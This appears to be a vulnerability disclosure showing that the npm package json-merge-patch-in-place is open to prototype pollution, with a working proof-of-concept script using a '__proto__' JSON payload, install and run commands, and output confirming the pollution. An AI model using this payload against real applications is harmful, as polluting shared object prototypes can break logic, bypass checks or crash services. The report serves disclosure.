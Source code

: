 # Description

`json-merge-patch-in-place` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var {patch} = require("json-merge-patch-in-place")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
patch(obj, payload);
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i json-merge-patch-in-place # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
